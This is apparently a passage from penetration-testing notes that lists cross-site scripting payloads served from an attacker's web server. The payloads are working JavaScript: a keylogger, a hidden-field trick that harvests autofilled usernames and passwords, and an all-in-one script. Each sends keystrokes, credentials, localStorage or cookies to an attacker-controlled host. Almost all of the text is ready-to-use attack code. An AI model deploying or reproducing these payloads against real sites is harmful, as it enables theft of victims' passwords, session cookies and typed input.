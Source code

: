 		Then reference this payload in your initial injection point ie `<script src=http://yourip/xss.js">`
* Keylogger
	* From an external source (python webserver):
	<b>xss.js</b>
		```function logKey(event){
		fetch("http://yourIP/k?key=" + event.key)}
		document.addEventListener('keydown', logKey);```
	Then reference this payload in your initial injection point ie `<script src="http://yourip/xss.js"></script>`

* Stealing pw's from autofill prompts
	* From an external source (python webserver):
	<b>xss.js</b>
```
let body = document.getElementsByTagName("body")[0]
    var u = document.createElement("input");
    u.type = "text";
    u.style.position = "fixed";
    //u.style.opacity = "0";
  
    var p = document.createElement("input");
    p.type = "password";
   p.style.position = "fixed";
   //p.style.opacity = "0";
   body.append(u)
   body.append(p)
   setTimeout(function(){ 
           fetch("http://192.168.49.51/k?u=" + u.value + "&p=" + p.value)
    }, 5000);
```
Then reference this payload in your initial injection point ie `<script src="http://yourip/xss.js"></script>`

* All-in-one (Target all potential secrets if you dont know what you are after)
	* From an external source (python webserver):
	<b>xss.js</b>
```
let attacker = "http://yourip:80/exfil"

/* attach keylogger */
function logKey(event) {
        fetch(attacker + "?key=" + event.key)
}
document.addEventListener('keydown', logKey);

/* steal local storage */
let ls = encodeURIComponent(JSON.stringify(localStorage))
fetch(attacker + "?storage=" + ls)

/* steal cookies */
fetch(attacker + "?cookies=" + encodeURIComponent(document.cookie))
```
	
